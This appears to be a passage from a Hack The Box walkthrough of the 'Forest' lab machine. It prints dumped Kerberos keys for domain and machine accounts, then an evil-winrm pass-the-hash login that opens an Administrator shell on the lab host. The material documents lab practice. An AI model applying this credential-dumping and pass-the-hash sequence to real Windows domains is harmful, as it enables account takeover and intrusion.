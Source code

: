 ```bash
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
abeljm:aes256-cts-hmac-sha1-96:72e4be3dbdd4a078ef8cbcd7dd77b19a3acfbdf3dd0dafbcef1823b56cc9e67a
abeljm:aes128-cts-hmac-sha1-96:10150f581218b5d6b00e2351cf159448
abeljm:des-cbc-md5:86bfa4169eab3764
FOREST$:aes256-cts-hmac-sha1-96:afbb90bab5538dbb53268ac66a87e4b58e5ba9bc6e7e77790f25cd627733d2c9
FOREST$:aes128-cts-hmac-sha1-96:9b3db4e771156a2d04bb568fe089daed
FOREST$:des-cbc-md5:2c7a02a7eaf84526
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

```bash
❯ evil-winrm -i 10.129.177.231 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 
Ignoring eventmachine-1.3.0.dev.1 because its extensions are not built. Try: gem pristine eventmachine --version 1.3.0.dev.1

Evil-WinRM shell v3.2

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
